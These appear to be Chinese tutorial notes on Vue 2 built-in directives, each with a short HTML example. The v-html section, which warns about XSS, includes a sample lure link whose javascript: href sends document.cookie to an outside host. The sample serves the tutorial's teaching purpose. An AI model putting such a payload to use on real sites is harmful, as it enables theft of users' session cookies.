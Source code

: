 ## 内置指令

我们学过的指令

- v-bind : 单向绑定解析表达式, 可简写为 :xxx

- v-model : 双向数据绑定

- v-for : 遍历数组/对象/字符串

- v-on : 绑定事件监听, 可简写为@

- v-if : 条件渲染（动态控制节点是否存存在）

- v-else : 条件渲染（动态控制节点是否存存在）

- v-show : 条件渲染 (动态控制节点是否展示)

### v-text 指令

- 作用：向其所在的节点中渲染文本内容。
- 与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。

```html
<div id="root">
  <div>你好，{{name}}</div>
  <div v-text="name"></div>
  <div v-text="str"></div>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      name: 'Vue',
      str: '<h3>你好啊！</h3>',
    },
  });
</script>
```

### v-html 指令

- 作用：向指定节点中渲染包含 html 结构的内容
- 与插值语法的区别：
  - `v-html`会替换掉节点中所有的内容，`{{xx}}`则不会。
  - `v-html`可以识别 html 结构。
- **严重注意**：`v-html`有安全性问题
  - 在网站上动态渲染任意 HTML 是非常危险的，容易导致**XSS**攻击。
  - 一定要在可信的内容上使用`v-html`，永远不要用在用户提交的内容上

```html
<div id="root">
  <div>你好，{{name}}</div>
  <div v-html="str"></div>
  <div v-html="str2"></div>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      name: 'Vue',
      str: '<h3>你好啊！</h3>',
      str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    },
  });
</script>
```

### v-cloak 指令

- 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉`v-cloak`属性
- 使用 css 配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题

```html
<style>
  [v-cloak] {
    display: none;
  }
</style>
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>
<!-- 编写了一个阻塞JS五秒钟程序 意味着5秒后才能显示html -->
<script
  type="text/javascript"
  src="http://localhost:8080/resource/5s/vue.js"
></script>
<script type="text/javascript">
  console.log(1);
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      name: 'Vue',
    },
  });
</script>
```

### v-once 指令

- `v-once所`在节点在初次动态渲染后，就视为静态内容了
- 以后数据的改变不会引起`v-once`所在结构的更新，可以用于优化性能

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      n: 1,
    },
  });
</script>
```

### v-pre 指令

- 跳过其所在节点的编译过程
- 可利用它跳过没有使用指令语法、没有使用插值语法的节点，会加快编译

```html
<div id="root">
  <h2 v-pre>Vue其实很简单</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      n: 1,
    },
  });
</script>
```
